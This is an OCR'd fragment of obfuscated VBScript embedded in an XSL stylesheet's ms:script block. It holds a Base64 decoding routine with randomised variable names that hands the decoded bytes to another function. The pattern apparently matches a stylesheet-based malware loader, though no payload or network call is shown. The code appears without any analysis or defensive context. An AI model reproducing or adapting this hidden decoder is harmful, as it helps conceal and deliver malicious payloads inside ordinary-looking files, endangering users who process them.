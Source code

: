 ```basic
                                    Dim Mbt0mzk6(63),NALQp0Gu3
                                    Dim b7Z9n8,iter,VKkZEf,ZyvKLLyyHHD
                                    Dim YBx4PZLTHSQ1 
                                    MiCzi9=Replace(MiCzi9,vbCr,vbNullString)
                                    MiCzi9=Replace(MiCzi9,vbLf,vbNullString)
                                    ZyvKLLyyHHD=Len(MiCzi9) Mod 4
                                    If InStrRev(MiCzi9,"==") Then
                                        b7Z9n8=2
                                    ElseIf InStrRev(MiCzi9,""+"=") Then
                                        b7Z9n8=1
                                    End If
                                    For ZyvKLLyyHHD=0 To 255
                                    Select Case ZyvKLLyyHHD
                                    Case 65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90
                                        arrayByte3(ZyvKLLyyHHD)=ZyvKLLyyHHD-65
                                    Case 97,98,99,100,101,102,103,104,105,106,107,108,109,110,111,112,113,114,115,116,117,118,119,120,121,122
                                        arrayByte3(ZyvKLLyyHHD)=ZyvKLLyyHHD-71
                                    Case 48,49,50,51,52,53,54,55,56,57
                                        arrayByte3(ZyvKLLyyHHD)=ZyvKLLyyHHD+4
                                    Case 43
                                        arrayByte3(ZyvKLLyyHHD)=62
                                    Case 47
                                        arrayByte3(ZyvKLLyyHHD)=63
                                    Case Else
                                    End Select
                                Next
                                For ZyvKLLyyHHD=0 To 63
                                Rp7jaY2jOqr(ZyvKLLyyHHD)=ZyvKLLyyHHD*64
                                arrayLong5(ZyvKLLyyHHD)=ZyvKLLyyHHD*4096
                                Mbt0mzk6(ZyvKLLyyHHD)=ZyvKLLyyHHD*262144
                            Next
                            Liefs=StrConv(MiCzi9,vbFromUnicode)
                            ReDim CYhV8N((((UBound(Liefs)+1)\4)*3)-1)
                            For iter=0 To UBound(Liefs) Step 4
                            NALQp0Gu3=Mbt0mzk6(arrayByte3(Liefs(iter)))+arrayLong5(arrayByte3(Liefs(iter+1)))+Rp7jaY2jOqr(arrayByte3(Liefs(iter+2)))+arrayByte3(Liefs(iter+3))
                            ZyvKLLyyHHD=NALQp0Gu3 And 16711680
                            CYhV8N(VKkZEf)=ZyvKLLyyHHD\65536
                            ZyvKLLyyHHD=NALQp0Gu3 And 65280
                            CYhV8N(VKkZEf+1)=ZyvKLLyyHHD\256
                            CYhV8N(VKkZEf+2)=NALQp0Gu3 And 255
                            VKkZEf=VKkZEf+3
                        Next
                        YBx4PZLTHSQ1=StrConv(CYhV8N,vbUnicode)
                        If b7Z9n8 Then YBx4PZLTHSQ1=Left(YBx4PZLTHSQ1,Len(YBx4PZLTHSQ1)-b7Z9n8)
                            t4zFxxgg22=FTKaWvcYaGWt(StrConv(YBx4PZLTHSQ1,vbFromUnicode))
                            t4zFxxgg22=qY7AOEpU1wn(t4zFxxgg22,"~")
                        End Function
                        Function qY7AOEpU1wn(str,chars)
                            Dim fqX3dbudmU
                            Dim XVZECKbx()
                            XVZECKbx=Split(str,chars)
                            fqX3dbudmU=UBound(XVZECKbx,1)
                            If fqX3dbudmU<>0 Then
                                str=Left(str,Len(str)-fqX3dbudmU)
                            End If
                            qY7AOEpU1wn=str
                        End Function
                        ]]></ms:script>
                </stylesheet>
```